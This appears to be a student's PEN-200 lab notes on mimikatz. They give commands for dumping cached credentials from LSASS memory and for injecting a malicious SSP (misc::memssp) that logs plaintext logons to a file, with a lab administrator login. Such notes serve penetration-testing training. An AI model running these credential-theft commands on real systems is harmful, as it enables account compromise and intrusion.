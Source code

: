 # mimikatz

- PEN-200, Password attacks, 16.3.5 Q1
- Domain hashes stored in memory of LSASS.exe process
```powershell
xfreerdp /u:"CORP\\Administrator" /p:"QWERTY123\!@#" /v:192.168.50.246 /dynamic-resolution
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

- With Credential Guard enabled, hashes are now in VTL1, not in memory
- Mimikats can register a new SSP with the SSPI, and hopefully force the SSPI to use our SSP for authentiction, forcing it to call the SSP with plaintext creds, which we can intercept
- once injected, wait for a connection, or force a connection
```powershell
privilege::debug
misc::memssp
# saved in a log file, C:\Windows\System32\mimilsa.log
```